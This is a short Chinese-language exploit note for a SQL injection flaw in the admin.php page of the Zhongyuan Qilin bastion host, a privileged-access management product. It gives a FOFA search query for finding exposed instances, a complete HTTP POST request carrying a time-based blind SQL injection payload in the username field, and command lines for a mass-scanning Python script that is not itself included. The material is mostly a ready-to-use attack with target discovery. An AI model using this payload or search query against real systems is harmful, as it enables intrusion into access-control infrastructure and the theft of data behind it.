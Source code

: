 # 中远麒麟堡垒机存在SQL注入

### 1.漏洞描述

麒麟堡垒机用于运维管理的认证、授权、审计等监控管理，在该产品admin.php处存在SQL 注入漏洞

### 2.fofa语法

```
cert.subject="Baolei"
```

### 3.漏洞复现

```
POST /admin.php?controller=admin_commonuser HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Connection: close
Content-Length: 78
Accept: */*
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

username=admin' AND (SELECT 12 FROM (SELECT(SLEEP(5)))ptGN) AND 'AAdm'='AAdm
```

![image.png](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719833303020-87fbfc46-b9fe-450d-beee-60f9c88947a2.png?x-oss-process=image%2Fformat%2Cwebp%2Fresize%2Cw_937%2Climit_0)

### 4.py脚本使用

```
python3 脚本文件名 -u "http://127.0.0.1"  # 测试单个url
python3 脚本文件名 -f url.txt             # 测试多个url
```


